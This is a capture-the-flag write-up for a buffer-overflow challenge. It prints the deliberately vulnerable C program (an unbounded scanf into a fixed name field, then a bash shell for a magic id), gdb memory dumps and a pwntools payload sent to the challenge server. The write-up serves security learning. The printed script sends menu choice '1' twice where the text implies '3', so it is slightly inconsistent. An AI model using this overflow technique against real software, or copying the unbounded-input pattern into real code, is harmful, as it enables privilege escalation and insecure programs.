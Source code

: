 # pointeroverflowctf - Exploit 200 "Overrun and Outdone"
## Table of Contents
- [Introduction](#introduction)
- [Code Analysis](#code-analysis)
- [Debugging](#Debugging)
- [Exploit Development](#exploit-development)
- [Usage](#usage)
- [Results](#results)
- [Conclusion](#conclusion)
- [References](#references)

## Introduction
<p align="center">
 <img src="images/exploit_200.png" alt="challenge">
 </p>

The User Record application has a buffer overflow vulnerability due to improper handling of user input. The `name` field in the `user_record` struct has a fixed size, which allows for an overflow when a longer string is provided. This exploit demonstrates how to manipulate the memory layout to change the `id` variable.

## Code Analysis

To gain privileged shell access in the User Record application, we target the ROOT_ID defined as 80085, The structure user_record has a total size of 32 bytes so with no padding, allowing us to exploit a buffer overflow in the name field to overwrite the adjacent id field directly. By crafting an input that exceeds the buffer size, we can set the id to 80085, granting access to the debug shell.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

#define GUEST_ID 101
#define ROOT_ID 80085

struct user_record {
	char name[28];
	int id;
};

void sig_handler(int signum) {

	printf("Timeout\n");
	exit(0);

}

void init() {

	alarm(60);
	signal(SIGALRM, sig_handler);

	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	chdir(getenv("HOME"));

}

int get_int() {

	int r;

	scanf(" %d", &r);
	while(getchar() != '\n');

	return r;

}

int main() {

	int choice;
	struct user_record u = {
		"User",
		GUEST_ID
	};

	init();

	printf("Ohayoooo, %s-senpai!! ☆ ～('▽^人)~ Welcome to your wildest dreams!\n", u.name);

	while(1) {

		printf("\nWhat can I do for you today, %s-senpai? UwU ♪(´▽`)\n", u.name);
		printf(" (1) ☆~ Rename yourself, nya! ~☆\n");
		printf(" (2) ★~ Become a super-duper admin! ~★\n");
		printf(" (3) ☾~ Access Debug Mode, teehee ~☽\n");
		printf(" (4) ✧~ Leave me?! Nooo... ~✧ (Quit the program)\n");
		printf("Your Choice, senpai: ");
		choice = get_int();

		if (choice == 1) {

			printf("Oooh! A new name, how exciting! (≧◡≦) Enter your new username, %s-senpai: ", u.name);
			scanf("%s", u.name);

		} else if (choice == 2) {

			printf("Ehehe, gomen'nasai %s, but the admin account is like... totally locked, desu~! (≧▽≦)/\n", u.name);

		} else if (choice == 3) {

			if (u.id == GUEST_ID) {
				printf("Oh no no no, %s-chan! Guests aren't allowed to use this feature, teehee! (≧ω≦)\n", u.name);
			} else if (u.id == ROOT_ID) {
				printf("Sugoi! Starting debug shell just for you, %s-sama~! (っ＾▿＾)\n", u.name);
				execl("/bin/bash", "/bin/bash", NULL);
			} else {
				printf("Hmmm... I don't know what kind of user you are, %s... so mysterious! (´･ω･`)\n", u.name);
			}

		} else if (choice == 4) {
			printf("N-Nani?! You're leaving me, %s-senpai?! ｡ﾟ･ (>﹏<) ･ﾟ｡ Sayonaraaa... come back soon, kay?! (~￣▽￣)~\n", u.name);
			exit(0);

		} else {
			printf("Eh? That's not an option, silly %s! (⁄ ⁄>⁄ ▽ ⁄<⁄)\n", u.name);
		}
	}
	return 0;
}
```
## Debugging 
### using gdb :

set name -> "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa" -> 'a' 29 times

```shell
(gdb) x/32bx &u.name
0x7fffffffde20: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde28: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde30: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde38: 0x61  0x61  0x61  0x61  0x61  0x00  0x00  0x00

(gdb) x/32bx &u.id
0x7fffffffde3c: 0x61  0x00  0x00  0x00  0x00  0xdf  0xff  0xff
0x7fffffffde44: 0xff  0x7f  0x00  0x00  0x00  0x00  0x00  0x00
0x7fffffffde4c: 0x01  0x00  0x00  0x00  0x01  0x00  0x00  0x00
0x7fffffffde54: 0x00  0x00  0x00  0x00  0xba  0x5d  0xde  0xf7

(gdb) print u.id
$4 = 97
```

The first byte of u.id (0x61) was overwritten by the overflow from u.name.
This means that u.id now holds the value 97, which is the ASCII code for the character 'a'

so for set u.id to 80085 ->  in hex 0x000138D5
In little-endian representation, the least significant byte comes first. Therefore, 80085 (0x000138D5) is stored in memory as 0xD5 0x38 0x01 0x00

## Exploit Development

```py
from pwn import *

# connection to the remote service
p = remote('35.184.182.18', 32001)

# Create 28 'A's followed by the bytes 0xD5 0x38 0x01 0x00
payload = b"A" * 28 + b"\xd5\x38\x01\x00"

p.recvuntil(b'Your Choice, senpai: ')
p.sendline(b'1')

p.sendline(payload)

p.recvuntil(b'Your Choice, senpai: ')
p.sendline(b'1')

p.interactive()

```
$ python3 exploit200.py 

<p align="center">
 <img src="images/exploit200_script.jpg" alt="challenge">
 </p>
